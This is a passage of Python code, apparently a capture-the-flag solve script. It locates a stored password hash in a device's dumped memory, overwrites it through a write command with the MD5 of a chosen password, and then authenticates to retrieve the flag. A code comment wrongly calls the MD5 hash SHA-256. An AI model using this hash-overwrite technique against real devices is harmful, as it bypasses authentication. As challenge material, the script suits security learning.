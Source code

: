 ```python
        memory_block_data += data
        # Increment the address by read_length (0xFF)
        address = increment_address(address, read_length)
    

    split_value = 0x00
    memory_block_entries = split_list_at_value(memory_block_data, split_value)

    hash_entry = []
    for entry in memory_block_entries:
        if len(entry) >= 16:
            print(entry)
            hash_entry += entry
  

    hash_entry_index = find_sublist_index(memory_block_data, hash_entry)
    print(hash_entry_index)


    passowrd = 'new_password'
    password_list = string_to_list_of_ints(passowrd)

    # Hash the secret value using SHA-256
    hash_object = hashlib.md5()
    hash_object.update(passowrd.encode())  # Convert secret to bytes and hash it
    hashed_value = hash_object.digest()  # Get the hash as bytes

    # Convert hash to a list of integers
    hashed_value_list = list(hashed_value)

    for increment in range(0, 6):
        address = int_to_3_byte_list(hash_entry_index+increment)
        print(f'Trying address {address}')
        code, status, data = send_packet(client, SESSION, 0x21, address + hashed_value_list)
        print(code, status, data)


        code, status, data = send_packet(client, SESSION, 0x22, password_list)
        print(code, status, data)

        if len(data) > 2:
            print('Found correct hash address!')

            flag = ""

            for char in data:
                flag += chr(char)

            print('FLAG', flag)
```
